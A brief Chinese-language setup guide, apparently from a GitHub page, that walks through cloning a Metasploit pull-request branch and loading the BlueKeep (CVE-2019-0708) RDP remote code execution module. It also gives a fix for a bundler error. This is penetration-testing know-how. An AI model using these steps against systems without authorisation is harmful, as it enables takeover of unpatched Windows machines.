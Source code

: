 ```shell
sudo apt-get install libsqlite3-dev libpq-dev libpcap-dev -y
git clone https://github.com/rapid7/metasploit-framework.git
cd metasploit-framework
git fetch origin pull/12283/head:bluekeep
git checkout bluekeep
gem install bundler && bundle
./msfconsole
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

> 如果出现如下错误:
```shell
/usr/local/bundle/bin/bundle:104:in `load': cannot load such file -- /usr/local/lib/ruby/gems/2.4.0/gems/bundler-1.16.1/exe/bundle (LoadError)

	from /usr/local/bundle/bin/bundle:104:in `<main>'
```
可以尝试使用如下命令修复:
```shell
gem update --system
gem pristine bundler
```


> 仅在Debian测试过

> 参考: https://pentest-tools.com/blog/bluekeep-exploit-metasploit/ 
